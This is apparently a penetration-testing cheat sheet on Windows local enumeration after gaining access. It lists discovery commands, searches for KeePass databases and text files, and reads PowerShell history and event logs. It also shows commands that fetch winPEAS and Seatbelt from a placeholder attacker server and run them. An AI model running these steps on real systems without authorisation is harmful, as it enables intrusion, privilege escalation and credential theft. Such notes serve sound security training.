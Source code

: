 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Local Enumeration

Username and hostname.

```batch
whoami
hostname
```

Group memberships of the current user.

```batch
whoami /groups
```

Existing users and groups.

{% tabs %}
{% tab title="PowerShell" %}
```powershell
Get-LocalUser
Get-LocalUser <user_name>
Get-LocalGroup
Get-LocalGroupMember <group_name>
```
{% endtab %}

{% tab title="Batch" %}
```batch
net user
net user <user_name>
net localgroup 
net localgroup <group_name>
```
{% endtab %}
{% endtabs %}

Operating system, version and architecture.

```batch
systeminfo
```

Network information.

```batch
ipconfig /all
route print
netstat -ano
```

Installed applications.

{% code overflow="wrap" %}
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

Running processes.

```powershell
Get-Process
Get-Process <Proccess> | select Path
```

Search for files.

{% code overflow="wrap" %}
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
{% endcode %}

```powershell
Get-ChildItem -Path C:\xampp -Include *.bin *.txt -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users -Include *.txt -File -Force -Recurse -ErrorAction SilentlyContinue
```

PowerShell history.

```powershell
Get-History # Get History Commands

(Get-PSReadlineOption).HistorySavePath # Get History File Path
```

PowerShell history event logs.

```powershell
Get-WinEvent Microsoft-Windows-PowerShell/Operational | Where-Object Id -eq 4104 | ForEach-Object { $_.Message } | findstr "dave*"
```

## Automated Enumeration

Download and execute **`winPEAS`** and **`Seatbelt`.**

```powershell
iwr -uri http://<attacker_http_server>/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://<attacker_http_server>/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

## References

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}
winPEAS
{% endembed %}

{% embed url="https://github.com/GhostPack/Seatbelt" %}
Seatbelt
{% endembed %}
